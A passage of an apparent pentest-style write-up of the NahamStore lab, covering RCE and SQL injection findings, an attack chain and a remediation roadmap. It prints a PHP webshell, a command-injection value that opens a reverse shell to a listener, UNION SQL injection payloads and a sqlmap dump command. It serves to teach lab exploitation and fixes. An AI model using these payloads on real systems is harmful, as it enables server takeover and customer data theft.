The `id` output in the page proves execution, and the URL carries the command so the request is fully reproducible. A second shot shows the shell used to read `/etc/hosts`.

#### Steps to reproduce

1. Fuzz port 8000 with `gobuster dir` and find `/admin`. Log in with `admin:admin`; it is the same dashboard as `marketing.nahamstore.thm`.
2. Load the storefront template and replace any text block with:

   ```php
   <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; die; } ?>
   ```

3. Save. The page now has a stable template id in its URL.
4. Load `http://marketing.nahamstore.thm/<template id>/?cmd=id`. The output of `id` is rendered.
5. Read the host file for the next step: `?cmd=cat /etc/hosts`.
6. For the blind path, intercept the PDF receipt request `what=order&id=4`, start `nc -lvnp 9000`, and set `id` to `4$(php -r '$s=fsockopen("<vpn ip>",9000);exec("/bin/sh -i <&3 >&3 2>&3");')`. A shell lands on the listener.

#### Business impact

This is the finding that turns a list of bugs into one incident. In plain terms, an attacker does not just read the shop, they run on the server: install a skimmer over the checkout, mail out a copy of the database, take the box offline, and keep access after the bug is patched.

#### Remediation

For the template editor, keep PHP out of the stored blocks or at least render them through the same escaping the rest of the app uses; a staff-only editor is still an execution surface. For the receipt generator, stop concatenating: wrap `id` in `escapeshellarg()` and cast it to an int when it is only a number, and prefer `proc_open` with an argument array over `system` with a string. Then take the obvious wins - drop `admin:admin`, disable `system` in `php.ini` where the app does not use it, and run the web user with a restricted `open_basedir`.

### 10. SQL Injection, including the blind variant

The `id` parameter on the product page is concatenated into a query and the error messages come straight back, so the column count is trivial to establish and a `UNION` lands where the product name would be. The second injection is blind, in the multipart body of `POST /returns`, and gives up almost nothing to a hand probe.

#### Finding title and severity

| Field         | Value                                                                     |
| ------------- | ------------------------------------------------------------------------- |
| Finding title | SQL injection on the product page (in-band UNION) and on returns (inferential) |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N`                     |

Reasoning: unauthenticated and it dumps the whole `nahamstore` schema. Rated High rather than Critical because it reaches the database only, and the web user's file read is covered separately by the LFI.

#### OWASP Top 10 (2021) mapping

A03:2021 Injection. CWE-89, SQL injection.

#### Affected endpoint

| Field     | Value                                                                    |
| --------- | ------------------------------------------------------------------------ |
| Full URL  | `http://nahamstore.thm/product?id=1` and `http://nahamstore.thm/returns` |
| Method    | GET and POST respectively                                                |
| Parameter | `id`, and `order_number` in the multipart body                            |

#### Screenshot evidence



The UNION payload carries the flag selection in the second column and the flag renders where the product title belongs: `{d890234e20be48ff96a2f9caab0de55c}`. A second shot shows the blind variant via `sqlmap -r` against the saved request.

#### Steps to reproduce

1. Send `GET /product?id=1'` to Repeater. A MySQL syntax error comes back, so the value is concatenated raw.
2. Walk `UNION SELECT` until the column count is right. Five columns satisfies the product query; `1099 UNION SELECT NULL,NULL,NULL,NULL,NULL-- -` renders a blank product rather than an error.
3. Put the output in the second column, which is the one echoed into the title:
   `1099 UNION SELECT NULL,@@version,NULL,NULL,NULL-- -` returns the version.
4. List the schemas: `1099 UNION SELECT NULL,GROUP_CONCAT(SCHEMA_NAME),NULL,NULL,NULL FROM information_schema.SCHEMATA-- -` gives `information_schema,nahamstore`.
5. List the tables in `nahamstore` and then the columns of `sqli_one`, which are `flag` and `id`.
6. Dump it: `1099 UNION SELECT NULL,GROUP_CONCAT(flag,id),NULL,NULL,NULL FROM nahamstore.sqli_one-- -` returns the flag.
7. For the blind variant, save the `POST /returns` request to a file and run `sqlmap -r req.txt --batch --level 5 --risk 3 -D nahamstore --dump`, which recovers the `sqli_two` flag.

#### Business impact

The database behind the shop is readable through a URL on the storefront. In plain terms, the customer table is the prize: names, emails, addresses and password hashes, all of which feed straight into credential stuffing against other sites where people reused their password.

#### Remediation

Bind every parameter with prepared statements - PDO with `ATTR_EMULATE_PREPARES` off - and stop building queries by concatenation anywhere, including the multipart `order_number`. Cast the `id` to an integer before the query so a numeric column is never quoted in the first place. Turn generic error output off in production and keep SQL errors in the log, and give the database user the minimum grants the app needs so a successful injection cannot reach `information_schema`-adjacent FILE privileges.

## Attack chain

The findings are worth more than their individual severities because they chain. The stored XSS and the template editor are the important pair.

1. An attacker sends a link, or simply browses, with `<script>` in the User-Agent header. The value is stored with the order.
2. A staff member opens the order in the admin panel on port 8000. The script runs in their session and `document.cookie` leaves for the attacker's listener.
3. The attacker replays that cookie into the marketing template editor, which is the same dashboard.
4. A one-line PHP webshell is saved into a template block and loaded.
5. The attacker now has command execution, reads `/etc/hosts`, and finds `nahamstore-2020-dev`.
6. The dev API returns customer records with social security numbers, and the SSRF path adds full order records with card data.

Six steps, five findings, and the entry point is a header value that no shopper can see, on a site that never asks the victim to do anything unusual. The chain also survives patching: removing the XSS leaves the RCE path if `admin:admin` is untouched, and removing the RCE leaves the SSRF path to the same order data.

## Remediation roadmap

**Immediate (0 to 7 days)**

| Finding | Action                                                                    |
| ------- | ------------------------------------------------------------------------- |
| 9       | Change the `admin:admin` credential, then patch the shell concatenation.   |
| 1       | Add output encoding on the six identified sinks; ship a CSP report-only.   |
| 3       | Add session-bound CSRF tokens and `SameSite=Lax` on the session cookie.    |
| 4       | Add an ownership check to the basket and return fetches.                   |
| 5       | `realpath()` the image handler and confirm the result is inside the directory. |
| 7       | Disable entity loading on the XLSX parser and cap parse size.              |

**Short term (30 days)**

| Finding | Action                                                                  |
| ------- | ----------------------------------------------------------------------- |
| 6       | Parse and allowlist the `server` value; block internal ranges.            |
| 10      | Move to prepared statements across the application, not just the two endpoints. |
| 2       | Central redirect helper with an allowlist.                               |
| 8       | Inventory every subdomain, retire or authenticate the dev API.           |

**Strategic (90 days)**

- Put the internal API and the admin panel behind one proxy with a single authentication layer.
- Add SAST with the injection rules on for the template and receipt code, and gate merges on it.
- Give the web user a restricted `open_basedir`, minimum database grants, and no shell tools it does not need.
- Quarterly external scan plus a repeat of this engagement to confirm the fixes hold.

## Conclusion

NahamStore is a working shop with an immature security baseline. The application trusts the browser completely - in the URL, in headers, in uploads and in form bodies - and it decides access from request values rather than from the session, and those two habits produced nine of the ten findings. None of the fixes requires a rewrite; encoding, ownership checks, prepared statements and a hardened parser close the Critical and every High.

Recommended for retest after the immediate bucket: findings 1, 3, 4, 5, 7 and 9 in full, plus a scoped retest of 6 and 10 once the allowlist and the statement rewrite land. The recon surface (finding 8) should be re-enumerated before the retest so any new host is brought into scope.

## References and appendix

- OWASP Top 10 2021 - <https://owasp.org/www-project-top-ten/>
- OWASP WSTG v4.2, Testing for LFI - <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion>
- OWASP, Open Redirect - <https://owasp.org/www-community/attacks/open_redirect>
- OWASP, XML External Entity Processing - <https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing>
- OWASP, Server-Side Request Forgery - <https://owasp.org/www-community/attacks/Server_Side_Request_Forgery>
- OWASP, Cross Site Request Forgery - <https://owasp.org/www-community/attacks/csrf>
- OWASP, Cross Site Scripting - <https://owasp.org/www-community/attacks/xss/>
- PortSwigger Web Security Academy, XXE - <https://portswigger.net/web-security/xxe>
- CVSS 3.1 calculator - <https://www.first.org/cvss/calculator/3.1>
- Tool versions: Burp Suite Community 2025.8, Firefox 143, ffuf 2.1.0, gobuster 3.6, sqlmap 1.8, Python 3.12 http.server, CyberChef 10.19.
- Test data: two accounts, addresses, orders and returns created by hand. Card `1234123412341234` is the application's own placeholder and is used for every checkout.
- Payload strings are reproduced exactly as sent, unencoded, so they can be pasted back into Repeater.
